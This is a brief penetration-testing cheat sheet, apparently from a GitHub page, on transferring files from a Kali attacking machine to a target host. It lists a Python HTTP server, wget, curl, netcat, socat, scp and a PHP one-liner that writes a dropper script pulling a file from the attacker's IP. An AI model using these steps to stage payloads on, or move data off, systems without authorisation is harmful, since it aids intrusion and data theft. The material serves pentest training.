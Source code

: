 Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other systems can access it.

HTTP Server
```python
python -m SimpleHTTPServer 80
python -m http.server 80
```

Wget
```
wget http://192.168.1.2/filename.txt
```

Curl
```
curl http://192.168.1.2/filename.txt -o filename.txt
```

Netcat

Target Linux
```
nc -nlvp 4444 > outputfile.exe
```
Kali
```
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```

Socat
Kali
```
socat TCP4-LISTEN:443,fork file:file.txt
```
Target Linux
```
socat TCP4:192.168.1.2:443 file:file.txt,create
```

SCP
```
scp /source/path/file.zip username@192.168.1.2:/destination/path/file.zip
```

PHP
```php
echo "<?php file_put_contents('filename', fopen('http://192.168.1.2/filename', 'r')); ?>" > filename.php
```
